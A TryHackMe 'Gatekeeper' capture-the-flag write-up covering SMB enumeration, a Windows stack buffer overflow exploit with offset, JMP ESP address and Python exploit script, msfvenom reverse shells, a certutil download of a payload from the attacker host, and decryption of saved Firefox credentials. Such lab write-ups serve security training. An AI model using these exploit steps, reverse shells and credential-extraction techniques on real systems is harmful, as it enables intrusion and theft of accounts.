


# TryHackMe - Gatekeeper

## Overview

- **Room:** Gatekeeper
- **Platform:** TryHackMe
- **Difficulty:** Medium
- **Focus:** Network reconnaissance, SMB enumeration, Windows stack-based buffer overflow exploitation, shellcode generation, reverse shells, Firefox credential extraction, and privilege escalation.

---

## Attack Path

The compromise followed this chain:

```text
Nmap reconnaissance
        ↓
SMB enumeration
        ↓
Anonymous access to the Users share
        ↓
Download gatekeeper.exe
        ↓
Identify the vulnerable service on port 31337
        ↓
Buffer overflow analysis and exploit development
        ↓
Identify the 146-byte offset
        ↓
Locate JMP ESP gadget
        ↓
Generate Windows reverse shell shellcode
        ↓
Execute the buffer overflow exploit
        ↓
Initial access as natbat
        ↓
Locate Firefox profile
        ↓
Extract logins.json and key4.db
        ↓
Decrypt saved Firefox credentials
        ↓
Recover mayor credentials
        ↓
RDP access as mayor
        ↓
Retrieve root.txt
```

---

# 1. Network Reconnaissance and Enumeration

I began by scanning the target to identify open ports and running services.

```bash
nmap -Pn -p- <TARGET_IP>
```

The scan identified the following services:

| Port | Service |
|---|---|
| 135 | MSRPC |
| 139 | NetBIOS-SSN |
| 445 | SMB |
| 3389 | RDP |
| 31337 | Unknown |
| 49152–49165 | MSRPC |

Port `31337` was identified as an unknown service and became the primary target for further investigation.



## SMB Enumeration

I listed the available SMB shares:

```bash
smbclient -L //<TARGET_IP> -N
```

The following shares were identified:

```text
Sharename       Type
---------       ----
ADMIN$          Disk
C$              Disk
IPC$            IPC
Users           Disk
```



I then enumerated the NetBIOS information:

```bash
nmblookup -A <TARGET_IP>
```

The output identified:

```text
GATEKEEPER
WORKGROUP
```

Next, I used Nmap's SMB enumeration script to inspect the available shares and their permissions:

```bash
nmap --script smb-enum-shares -p 139,445 <TARGET_IP>
```

The `Users` share allowed read access.

I also ran SMB vulnerability checks:

```bash
nmap --script smb-vuln\* -p 139,445 <TARGET_IP>
```

---

# 2. Discovering the Vulnerable Application

I connected to the unknown service on port `31337` using Netcat:

```bash
nc <TARGET_IP> 31337
```

The application returned:

```text
Hello !!!
```

I tested the application by submitting input:

```text
hi
```

The application responded:

```text
Hello hi!!!
```

I then submitted a longer string of characters to test how the application handled user-controlled input:

```text
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The application processed and returned the supplied input.

## Downloading the Vulnerable Executable

I connected to the `Users` SMB share:

```bash
smbclient //<TARGET_IP>/Users -U anonymous -W WORKGROUP
```

I enumerated the share:

```text
dir
```

I navigated into the `Share` directory:

```text
cd Share
dir
```

The directory contained:

```text
gatekeeper.exe
```

I downloaded the executable and transferred it to a local Windows 7 virtual machine for debugging and exploit development.

I also installed the required Microsoft Visual C++ runtime:

```text
vc_redist.x86.exe
```

---

# 3. Buffer Overflow Exploit Development

I used the local Windows 7 environment to analyse the vulnerable application and develop the exploit.

## 3.1 Finding the Offset

I generated and sent a cyclic pattern to determine the exact number of bytes required to reach the saved return address.

After examining the overwritten EIP value, I used Metasploit's `pattern_offset.rb` utility:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6700 -q 39654138
```

The result identified:

```text
Exact match at offset 146
```

The offset required to reach the saved return address was therefore 146 bytes.

## 3.2 Confirming EIP Control

I created a Python script to test whether the saved return address could be overwritten.

```python
#!/usr/bin/env python3
import socket

ip = "<LOCAL_TEST_IP>"
port = 31337

offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

print("buffer=", len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Crash Overwrite EIP: 42424242...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

The debugger confirmed that EIP could be overwritten with:

```text
42424242
```

This demonstrated control over the saved return address.

## 3.3 Identifying Bad Characters

I used Mona to generate a byte array, initially excluding the null byte:

```text
!mona bytearray -b "\x00"
```

I compared the generated byte array against the memory contents:

```text
!mona compare -f C:\Users\IEUser\Downloads\gatekeeper\bytearray.bin -a 015419F8
```

The comparison identified two bad characters:

```text
00 0a
```

I regenerated the byte array while excluding both characters:

```text
!mona bytearray -b "\x00\x0a"
```

I then performed another comparison:

```text
!mona compare -f C:\Users\IEUser\Downloads\gatekeeper\bytearray.bin -a 014D19F8
```

The comparison confirmed the corrected byte array.

## 3.4 Locating a JMP ESP Gadget

I used Mona to search for a suitable `JMP ESP` instruction while excluding the identified bad characters:

```text
!mona jmp -r esp -cpb "\x00\x0a"
```

The results included:

```text
Address=080414C3
Message=0x080414c3 : jmp esp
[gatekeeper.exe] ASLR: False
```

I selected the address:

```text
080414C3
```

I converted it to little-endian byte order for the exploit:

```python
retn = "\xc3\x14\x04\x08"
```

## 3.5 Generating the Reverse Shell Payload

I generated a Windows x86 reverse shell payload using msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LOCAL_ATTACKER_IP> LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```

The payload was generated with the following settings:

- Payload: `windows/shell_reverse_tcp`
- Callback address: `<LOCAL_ATTACKER_IP>`
- Callback port: `80`
- Exit function: `thread`
- Bad characters: `\x00` and `\x0a`
- Output format: C

## 3.6 Constructing the Final Exploit

I combined the overflow, return address, NOP sled, and generated shellcode.

The payload structure was:

```python
offset = 146

overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16

payload = (
    "<GENERATED_SHELLCODE>"
)

postfix = ""

buffer = overflow + retn + padding + payload + postfix
```

The final payload consisted of:

1. 146 bytes to reach the saved return address.
2. The `JMP ESP` address.
3. A 16-byte NOP sled.
4. The generated reverse shell shellcode.

## 3.7 Testing the Exploit Locally

Before targeting the TryHackMe machine, I tested the exploit against the local Windows 7 virtual machine.

I started a Netcat listener:

```bash
sudo rlwrap nc -lnvp 80
```

I then executed the exploit:

```bash
./payload-dev.py
```

The listener received a connection:

```text
listening on [any] 80 ...
connect to [<LOCAL_ATTACKER_IP>] from (UNKNOWN) [<LOCAL_TEST_IP>] 49360

Microsoft Windows [Version 6.1.7601]

C:\Users\IEUser\Downloads>
```

The successful connection confirmed that the exploit worked against the local test application.

---

# 4. Exploiting the TryHackMe Target

After validating the exploit locally, I adapted it to target the TryHackMe machine.

I regenerated the reverse shell payload using my TryHackMe VPN IP address:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_VPN_IP> LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```

I updated the exploit script with:

- The TryHackMe target IP address.
- The AttackBox VPN callback IP address.
- The newly generated shellcode.

I started a listener on port `80`:

```bash
sudo rlwrap nc -lnvp 80
```

I then executed the updated exploit against the target.

```bash
python3 exploit.py
```

The exploit successfully established a reverse shell on the target machine.

The shell provided access as the `natbat` user.

## Retrieving the User Flag

I navigated to the user's Desktop directory:

```cmd
cd C:\Users\natbat\Desktop
```

I listed the directory contents:

```cmd
dir
```

The user flag was located in this directory.

---

# 5. Privilege Escalation Enumeration

After obtaining initial access as `natbat`, I began investigating the machine for privilege-escalation opportunities.

## 5.1 Attempting Executable Replacement

I discovered that a batch file periodically started the Gatekeeper application.

I generated a standalone Windows reverse shell executable:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_VPN_IP> LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f exe -o gatekeeper.exe
```

I hosted the executable on my attacking machine and used `certutil` to download it onto the target:

```cmd
certutil -urlcache -split -f http://<ATTACKER_VPN_IP>/gatekeeper.exe gatekeeper.exe
```

The replacement attempt did not provide elevated access because the application ran as the `gatekeeper` user rather than an administrator.

## 5.2 Investigating Firefox

I continued enumerating the user's files and discovered:

```text
Firefox.lnk
```

I inspected the shortcut:

```cmd
type Desktop\Firefox.lnk
```

The shortcut referenced the following executable:

```text
C:\Users\natbat\AppData\Local\Mozilla Firefox\firefox.exe
```

This identified Firefox as an installed application and provided a potential location to investigate saved browser credentials.

---

# 6. Extracting Firefox Credentials

I searched for the Firefox saved-login database:

```cmd
dir logins.json /s /p
```

The search identified the Firefox profile directory:

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
```

## 6.1 Inspecting logins.json

I navigated to the Firefox profile and inspected the saved-login file:

```cmd
type logins.json
```

The file contained encrypted login information, including:

```json
{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://creds.com",
      "encryptedUsername": "...",
      "encryptedPassword": "...",
      "encType": 1
    }
  ],
  "version": 3
}
```

## 6.2 Locating key4.db

The Firefox profile also contained:

```text
key4.db
```

I identified the two files required for credential recovery:

- `logins.json`
- `key4.db`

## 6.3 Copying the Firefox Profile

I copied the Firefox profile into the accessible SMB share:

```cmd
copy C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release C:\Users\Share\profile
```

I then connected to the SMB share from my attacking machine:

```bash
smbclient //<TARGET_IP>/Users -U anonymous -W WORKGROUP
```

I enabled recursive transfers and disabled individual confirmation prompts:

```text
mask ""
recurse ON
prompt OFF
cd Share/profile
mget *
```

This downloaded the Firefox profile files to my attacking machine.

## 6.4 Decrypting the Firefox Credentials

I used `firepwd.py` to decrypt the saved Firefox credentials:

```bash
python3 firepwd.py -d Share/
```

The script successfully processed the Firefox profile and recovered the saved login information.

The recovered account was:

```text
Website: https://creds.com
Username: mayor
Password: <REDACTED>
```

---

# 7. Accessing the Administrator Account Through RDP

After recovering the `mayor` credentials, I used FreeRDP to authenticate to the target through Remote Desktop Protocol.

```bash
xfreerdp /u:mayor /p:<REDACTED> /v:<TARGET_IP>
```

The login provided access to the Windows desktop as `mayor`.

The account belonged to the Windows Administrators group, providing administrative-level access to the machine.

## Retrieving the Root Flag

After logging in, I located:

```text
root.txt
```

The flag was successfully retrieved, completing the room.

---

# Finding

**Exposed Firefox Credentials**

The Firefox profile belonging to `natbat` contained saved login information in `logins.json` and associated key material in `key4.db`.

After copying the profile and decrypting its contents with `firepwd.py`, I recovered credentials belonging to the `mayor` account.

---

# Vulnerability

**Stack-Based Buffer Overflow in Gatekeeper**

The application running on port `31337` accepted user-controlled input without adequately restricting its length.

Static analysis and debugging identified a buffer overflow that allowed the saved return address to be overwritten. The 146-byte offset and a suitable `JMP ESP` gadget enabled control-flow redirection and execution of reverse shell shellcode.

**Insecure Credential Storage in Firefox Profile**

The compromised user's Firefox profile contained saved credentials that could be recovered using the profile's stored key database and a decryption tool.

The recovered credentials belonged to an account in the Windows Administrators group, allowing administrative access through RDP.

> **Final Result: Root Flag Obtained**

The buffer overflow provided initial access as `natbat`. Firefox credential extraction then provided access to the administrator account `mayor`, allowing retrieval of `root.txt`.

---

# Attack Chain Summary

The complete attack path I followed to compromise the Gatekeeper machine was:

```text
Nmap reconnaissance
        ↓
SMB share enumeration
        ↓
Anonymous access to the Users share
        ↓
Download gatekeeper.exe
        ↓
Identify vulnerable service on port 31337
        ↓
Calculate 146-byte buffer overflow offset
        ↓
Confirm EIP control
        ↓
Identify bad characters: 00 and 0a
        ↓
Locate JMP ESP gadget at 080414C3
        ↓
Generate Windows reverse shell shellcode
        ↓
Test exploit locally
        ↓
Adapt exploit for TryHackMe target
        ↓
Execute buffer overflow exploit
        ↓
Reverse shell as natbat
        ↓
Locate Firefox profile
        ↓
Extract logins.json and key4.db
        ↓
Decrypt saved Firefox credentials
        ↓
Recover mayor credentials
        ↓
RDP authentication as mayor
        ↓
Retrieve root.txt
```

---

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Anonymous SMB access | Exposed the vulnerable Gatekeeper executable for download and analysis. |
| Stack-based buffer overflow | Allowed control-flow hijacking and remote code execution through the application on port 31337. |
| Insecure storage of browser credentials | Exposed saved Firefox credentials belonging to the privileged `mayor` account. |
| Excessive privileges assigned to `mayor` | Allowed the recovered credentials to provide administrative access through RDP. |

---

# Lessons Learned

This room demonstrated how a stack-based buffer overflow can be developed into a working remote exploit. The process involved identifying the vulnerable application, calculating the return address offset, confirming EIP control, identifying bad characters, locating a `JMP ESP` gadget, and generating suitable shellcode. Testing the exploit locally before adapting it to the target was an important part of the process.

The privilege-escalation stage demonstrated the importance of post-exploitation enumeration and credential security. The initial shell only provided access as `natbat`, but investigating the user's Firefox profile exposed saved credentials for `mayor`. Recovering those credentials provided access to an account with administrative privileges, completing the compromise.
